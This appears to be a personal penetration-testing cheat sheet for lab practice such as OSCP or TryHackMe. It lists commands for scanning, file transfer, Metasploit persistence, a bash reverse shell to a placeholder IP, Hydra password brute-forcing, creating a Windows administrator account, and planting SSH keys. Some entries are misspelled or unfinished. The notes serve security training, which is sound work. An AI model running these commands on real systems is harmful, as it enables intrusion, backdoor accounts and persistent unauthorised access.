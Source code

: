 Tips and Tricks

# Nmap scan (Not for OSCP)
nmap -T4 -p- _IP_
nmap -flags <ports_found> _IP_

rustscan (Not recommended for org)

# File Transfer

For windows
certutil.exe -urlcache -f _link_

For linux
python -m SimpleHTTPServer _port_

FTP:
python -m pyftpdlib 21 (attacker machine)

Linux:
curl,wget

# Maintaining Access

> **scripts**
> * run persistence -h
> * run persistence -X (automatically starts when the system boots)
> * explooit/windows/local/persistence
> * exploit/windows/local/registry_persistence
 
 
> **Scheduled Tasks** (cronjob)
> * run scheduleme
> * run schtaskabuse

> **Add a user**

# Searching exploits

`searchsploit <name>` - gives the findings and this is updated via ghdb.
-|-|-|-|-|-|-|-|-|-|-|-|-|--|-|-|-|-|-|-|-|-|
Tip: If you found any `.rb` file then there is 99% chances that exploit is available in metasploit.

# Execute Code Overflow
If you dont have access to write of create file then try storing it in temp variable.


# List all the avaiable shells

`cat /etc/shells`

# Crontab
`crontab -l` this will list the cron jobs for the current user
`cat /etc/crontab` this will list all the cronjobs available in system

# Netcat reverse shell

`bash -i >& /dev/tcp/[IP]/[PORT] 0>&1`

# Hydra 
**Basic Auth**
`hydra -l bob -P /usr/share/seclists/Passwords/Common-Credentials/best1050.txt -s 80 -f 10.10.156.184 http-get /protected`

[Tips hydra](https://github.com/gnebbia/hydra_notes)

# Nikto
scan with basic auth credentials
`nikto -h ip -id bob:password`

# LFI to steal ssh pvt key

for this always use burp to get the private key 

# Hydra 
**Login page**
`hydra `

# Windows add user
For adding user in windows and then user to admin group use this:
`net user x3rz 123 /add`
`net localgroup Administrators x3rz /add` this will add the x3rz to admin group

# RDP to windows machine
```bash
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.182.72 /u:Administrator /p:'TryH4ckM3!'
```

Add smb share to windows:
```bash
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.200.181.150 /u:x3rz /p:'Test@123' /drive:/usr/share/windows-resources,share
```

# SSH keys
`ssh-keygen -f user`
then paste the public key to the authprized_keys section of the target system and then you can login from private key of that user by `ssh -i user user@ip`

# Port forwarding from ssh 
`ssh -L 9001:127.0.0.1:9001 -i user user@ip`

so this will connect my 9001 port to the vitim 

#  Dirsearch
use -   `.old, .bak, .xxx` during searches

